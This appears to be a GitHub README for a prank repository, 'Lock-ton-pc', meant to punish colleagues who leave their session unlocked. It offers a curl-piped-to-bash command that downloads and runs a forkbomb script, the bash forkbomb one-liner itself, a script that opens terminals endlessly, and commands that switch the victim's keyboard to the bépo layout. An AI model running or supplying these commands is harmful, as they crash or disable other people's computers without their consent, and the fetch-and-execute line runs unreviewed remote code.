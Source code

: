 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh | bash -

```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster

Opens terminal at infinity. [work with gnome-terminal]

```
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```
